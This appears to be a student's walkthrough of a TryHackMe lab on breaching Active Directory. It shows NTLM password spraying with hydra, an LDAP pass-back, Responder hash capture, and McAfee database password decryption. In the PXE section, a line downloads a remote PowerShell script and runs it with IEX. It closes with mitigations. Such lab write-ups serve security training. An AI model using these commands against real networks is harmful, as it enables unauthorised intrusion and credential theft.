

# Introduction to AD Breaches

> Alert!, This Room Is Aweful

Active Directory (AD) is used by approximately 90% of the Global Fortune 1000 companies. If an organisation's estate uses Microsoft Windows, you are almost guaranteed to find AD. Microsoft AD is the dominant suite used to manage Windows domain networks. However, since AD is used for Identity and Access Management of the entire estate, it holds the keys to the kingdom, making it a very likely target for attackers.

**Breaching Active Directory**  

Before we can exploit AD misconfigurations for privilege escalation, lateral movement, and goal execution, you need initial access first. You need to acquire an initial set of valid AD credentials. Due to the number of AD services and features, the attack surface for gaining an initial set of AD credentials is usually significant. In this room, we will discuss several avenues, but this is by no means an exhaustive list.

When looking for that first set of credentials, we don't focus on the permissions associated with the account; thus, even a low-privileged account would be sufficient. We are just looking for a way to authenticate to AD, allowing us to do further enumeration on AD itself.

**Learning Objectives**  

In this network, we will cover several methods that can be used to breach AD. This is by no means a complete list as new methods and techniques are discovered every day. However, we will  cover the following techniques to recover AD credentials in this network:

- NTLM Authenticated Services
- LDAP Bind Credentials
- Authentication Relays
- Microsoft Deployment Toolkit
- Configuration Files  

We can use these techniques on a security assessment either by targeting systems of an organization that are internet-facing or by implanting a rogue device on the organisation's network.

## Configure DNS and hosts

Retrieve valid hostnames in DC via creating an adapter that have DC set as DNS server

```bash
sudo vi /etc/resolv.conf
```

```css
nameserver 10.200.97.201
nameserver 1.1.1.1
```

```bash
sudo vi /etc/hosts
```

```bash
10.200.97.101 THMDC za.tryhackme.com
```

# OSINT and Phishing

Two popular methods for gaining access to that first set of AD credentials is Open Source Intelligence (**OSINT**) and **Phishing**. We will only briefly mention the two methods here, as they are already covered more in-depth in other rooms.  

**OSINT**

OSINT is used to discover information that has been publicly disclosed. In terms of AD credentials, this can happen for several reasons, such as:

- Users who ask questions on public forums such as [Stack Overflow](https://stackoverflow.com/) but disclose sensitive information such as their credentials in the question.
- Developers that upload scripts to services such as [Github](https://github.com/) with credentials hardcoded.
- Credentials being disclosed in past breaches since employees used their work accounts to sign up for other external websites. Websites such as [HaveIBeenPwned](https://haveibeenpwned.com/) and [DeHashed](https://www.dehashed.com/) provide excellent platforms to determine if someone's information, such as work email, was ever involved in a publicly known data breach.  

By using OSINT techniques, it may be possible to recover publicly disclosed credentials. If we are lucky enough to find credentials, we will still need to find a way to test whether they are valid or not since OSINT information can be outdated. In Task 3, we will talk about NTLM Authenticated Services, which may provide an excellent avenue to test credentials to see if they are still valid.

A detailed room on Red Team OSINT can be found [here.](https://tryhackme.com/jr/redteamrecon)

**Phishing**

Phishing is another excellent method to breach AD. Phishing usually entices users to either provide their credentials on a malicious web page or ask them to run a specific application that would install a Remote Access Trojan (RAT) in the background. This is a prevalent method since the RAT would execute in the user's context, immediately allowing you to impersonate that user's AD account. This is why phishing is such a big topic for both Red and Blue teams.

A detailed room on phishing can be found [here.](https://tryhackme.com/module/phishing)

# NTLM Authenticated Services

New Technology LAN Manager (NTLM) is the suite of security protocols used to authenticate users' identities in AD. NTLM can be used for authentication by using a challenge-response-based scheme called NetNTLM. This authentication mechanism is heavily used by the services on a network. However, services that use NetNTLM can also be exposed to the internet. The following are some of the popular examples:

- Internally-hosted Exchange (Mail) servers that expose an Outlook Web App (OWA) login portal.
- Remote Desktop Protocol (RDP) service of a server being exposed to the internet.
- Exposed VPN endpoints that were integrated with AD.
- Web applications that are internet-facing and make use of NetNTLM.

NetNTLM, also often referred to as Windows Authentication or just NTLM Authentication, allows the application to play the role of a middle man between the client and AD. All authentication material is forwarded to a Domain Controller in the form of a challenge, and if completed successfully, the application will authenticate the user.

This means that the application is authenticating on behalf of the user and not authenticating the user directly on the application itself. This prevents the application from storing AD credentials, which should only be stored on a Domain Controller. This process is shown in the diagram below:



## Questions

### What is the name of the challenge-response authentication mechanism that uses NTLM?

> netntlm

### What is the username of the third valid credential pair found by the password spraying script?

- You have been provided with a list of usernames discovered during a red team OSINT exercise. The OSINT exercise also indicated the organisation's initial onboarding password, which seems to be "Changeme123"

Brute force with script

```bash
┌──(kali㉿kali)-[~/thm/breachingad/passwords_spray]
└─$ python ntlm_passwordspray.py -u usernames.txt -f za.tryhackme.com -p Changeme123 -a http://ntlmauth.za.tryhackme.com
[*] Starting passwords spray attack using the following password: Changeme123
[-] Failed login with Username: anthony.reynolds
[-] Failed login with Username: samantha.thompson
[-] Failed login with Username: dawn.turner
[-] Failed login with Username: frances.chapman
[-] Failed login with Username: henry.taylor
[-] Failed login with Username: jennifer.wood
[+] Valid credential pair found! Username: hollie.powell Password: Changeme123
[-] Failed login with Username: louise.talbot
[+] Valid credential pair found! Username: heather.smith Password: Changeme123
[-] Failed login with Username: dominic.elliott
[+] Valid credential pair found! Username: gordon.stevens Password: Changeme123
[-] Failed login with Username: alan.jones
[-] Failed login with Username: frank.fletcher
[-] Failed login with Username: maria.sheppard
[-] Failed login with Username: sophie.blackburn
[-] Failed login with Username: dawn.hughes
[-] Failed login with Username: henry.black
[-] Failed login with Username: joanne.davies
[-] Failed login with Username: mark.oconnor
[+] Valid credential pair found! Username: georgina.edwards Password: Changeme123
[*] Password spray attack completed, 4 valid credential pairs found
```

Or Brute Force with **hydra**

```bash
hydra -L usernames.txt -p 'Changeme123' ntlmauth.za.tryhackme.com http-head -e ns -v
```


> gordon.stevens

### How many valid credentials pairs were found by the password spraying script?

> 4

### What is the message displayed by the web application when authenticating with a valid credential pair?

For burp to work with NTLM auth, two settings are required in this case

1. Setup NTLM auth credentials


2. Enable use of HTTP/1.1


> Hello World

# LDAP Bind Credentials

## Performing an LDAP Pass-back


Use other's pre-built rogue LDAP server in docker to speed up things

> refer - [# LDAP PassBack Attacks, the docker way](https://infosecwriteups.com/ldap-passback-attacks-the-docker-way-b06971b65304)

```bash
git clone https://github.com/pedrojosenavasperez/ldap-passback-docker
sudo docker build -t ldap-passback .
```

> Had an error : `E: Unable to locate package ldap-utils` during docker setup, need to edit `Dockerfile` to add `RUN echo "deb http://deb.debian.org/debian-security/ bookworm-security main" > /etc/apt/sources.list` after `FROM debian`

```bash
┌──(kali㉿kali)-[/opt/sectools/ad/ldap-passback-docker]
└─$ sudo docker run --rm -ti -p 389:389 ldap-passback
Starting OpenLDAP: slapd.
[
  {
    "_index": "packets-2023-06-30",
    "_type": "doc",
    "_score": null,
    "_source": {
      "layers": {
        "ldap.name": [
          "za.tryhackme.com\\svcLDAP"
        ],
        "ldap.simple": [
          "tryhackmeldappass1@"
        ]
      }
    }
```

> Responder can only gather ntlm hash (`sudo responder -I tun-breachad -A`)

# Authentication Relays

- Server Message Block (SMB)
- LLMNR, NBT-NS, and WPAD
- Relaying the Challenge


## Questions

### What is the name of the tool we can use to poison and capture authentication requests on the network?

> Responder

### What is the username associated with the challenge that was captured?

```bash
sudo responder -I tun-breachad -wd -v
```

```bash
[SMB] NTLMv2-SSP Client   : 10.200.97.202
[SMB] NTLMv2-SSP Username : ZA\svcFileCopy
[SMB] NTLMv2-SSP Hash     : svcFileCopy::ZA:7d7736b5c06572ba:EFBA2E3C94295D6FFB39982C2A788740:0101000000000000801FA7607CABD9012967DE94BFC8F06900000000020008005200360030004D0001001E00570049004E002D0033005600300055005100470042004B0053005600410004003400570049004E002D0033005600300055005100470042004B005300560041002E005200360030004D002E004C004F00430041004C00030014005200360030004D002E004C004F00430041004C00050014005200360030004D002E004C004F00430041004C0007000800801FA7607CABD90106000400020000000800300030000000000000000000000000200000FB4AC0CD711CE41AD6CBEF6A107EDB636070DB2D440A344AD5A781226E87C1730A001000000000000000000000000000000000000900200063006900660073002F00310030002E00350030002E00390034002E00340030000000000000000000
```

> ZA\svcFileCopy

### What is the value of the cracked password associated with the challenge that was captured?


> FPassword1!

# Microsoft Deployment Toolkit

Large organisations need tools to deploy and manage the infrastructure of the estate. In massive organisations, you can't have your IT personnel using DVDs or even USB Flash drives running around installing software on every single machine. Luckily, Microsoft already provides the tools required to manage the estate. However, we can exploit misconfigurations in these tools to also breach AD.


- MDT and SCCM
- PXE Boot

```bash
sshpass -p 'Password1@' ssh -o "StrictHostKeyChecking no" thm@THMJMP1.za.tryhackme.com
```

> Refer - [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#pxe-boot-image-attack)

- In Real Case, command will be:

```bash
ipconfig
(new-object system.net.webclient).downloadstring('http://10.50.94.40/PowerPXE.ps1') | IEX
Get-PXEcreds -InterfaceAlias "Ethernet 4"
```

> Skip commands for this room, because the room have bug that couldn't be resolved

# Configuration Files

> Decrypt McAfee SiteList.xml

```bash
┌──(kali㉿kali)-[~/thm/breachingad]
└─$ sshpass -p 'Password1@' scp thm@THMJMP1.za.tryhackme.com:C:/ProgramData/McAfee/Agent/DB/ma.db .

┌──(kali㉿kali)-[~/thm/breachingad]
└─$ sqlite3 ma.db
SQLite version 3.40.1 2022-12-28 14:03:47
Enter ".help" for usage hints.
sqlite> .tables
AGENT_CHILD              AGENT_PROXIES            MA_DATACHANNEL_MESSAGES
AGENT_LOGS               AGENT_PROXY_CONFIG
AGENT_PARENT             AGENT_REPOSITORIES
sqlite> .mode column
sqlite> .headers on
sqlite> select DOMAIN, AUTH_USER, AUTH_PASSWD from AGENT_REPOSITORIES;                                                                                                                      
DOMAIN            AUTH_USER  AUTH_PASSWD
----------------  ---------  --------------------------------------------------------
za.tryhackme.com  svcAV      jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==
```

> Use `.mode column` and `.headers on` to pretty print table

> Alternatives:  lookup with **DBEaver** or `SQLiteBrowser`
> 

> Tool to decrypt Mcafee Database - https://github.com/funoverip/mcafee-sitelist-pwd-decryption/

```bash
git clone https://github.com/funoverip/mcafee-sitelist-pwd-decryption/
cd mcafee-sitelist-pwd-decryption
```

```bash
┌──(kali㉿kali)-[~/thm/breachingad/mcafee-sitelist-pwd-decryption]
└─$ python mcafee_sitelist_pwd_decrypt.py "jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q=="
Crypted password   : jWbTyS7BL1Hj7PkO5Di/QhhYmcGj5cOoZ2OkDTrFXsR/abAFPM9B3Q==
Decrypted password : MyStrongPassword!
```

# Conclusion

**Mitigations**  

In terms of mitigations, there are some steps that organisations can take:

- User awareness and training - The weakest link in the cybersecurity chain is almost always users. Training users and making them aware that they should be careful about disclosing sensitive information such as credentials and not trust suspicious emails reduces this attack surface.
- Limit the exposure of AD services and applications online - Not all applications must be accessible from the internet, especially those that support NTLM and LDAP authentication. Instead, these applications should be placed in an intranet that can be accessed through a VPN. The VPN can then support multi-factor authentication for added security.
- Enforce Network Access Control (NAC) - NAC can prevent attackers from connecting rogue devices on the network. However, it will require quite a bit of effort since legitimate devices will have to be allowlisted.
- Enforce SMB Signing - By enforcing SMB signing, SMB relay attacks are not possible.
- Follow the principle of least privileges - In most cases, an attacker will be able to recover a set of AD credentials. By following the principle of least privilege, especially for credentials used for services, the risk associated with these credentials being compromised can be significantly reduced.

